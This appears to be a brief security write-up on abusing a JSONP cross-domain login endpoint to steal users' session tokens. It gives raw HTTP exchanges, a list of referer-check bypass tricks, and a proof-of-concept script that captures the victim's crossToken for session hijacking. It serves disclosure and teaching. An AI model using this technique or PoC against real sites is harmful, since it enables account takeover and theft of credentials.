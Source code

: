 ```yaml
---
layout: single
title:  "Abusing JSONP to grab user credentials"
---
```


I find that a company implements cross-domain authentication using JSONP and cookies.There is the login flow:
```
GET /api/cross/getsign?callback=test HTTP/1.1
Host: portal.domain.com
Referer: http://www.otherdomain.com

HTTP/1.1 200 OK
test(crossToken)
```
```
POST /api/cross/getsign HTTP/1.1
Host: www.otherdomain.com

crossToken=[crossToken]

HTTP/1.1 200 OK
set-cookie: session=xxxxxxxxxxxxxxxxxxxxxxx
```
The company prevents the JSONP injection via referer check. 

some common referer check  byapss tricks:
- notdomian.com
- domain.com.evil.com
- evil.com/domain.com
- send a blank referer

Fortunately, I can bypass it using nototherdomain.com. Then  I buy it and host the malicious code there. So, I can steal the victims' crossToken and hijack their session.


POC:
```
<script type="text/javascript">
function test(data) {
    var crossToken = data;
    document.write('crossToken=' + encodeURIComponent(crossToken));
}
</script>
<script src="http://portal.domain.com/api/cross/getsign?callback=test"></script>
```

Further reading:
- [Practical JSONP Injection](https://securitycafe.ro/2017/01/18/practical-jsonp-injection/)
- [Tutorial Five: Bypassing CSRF protection](https://zseano.com/tutorials/5.html)
- [Backdoor of All Flickr API Calls by XSSI](https://ngailong.wordpress.com/2017/08/11/open-door-to-all-flickr-api-calls-by-xssi/)


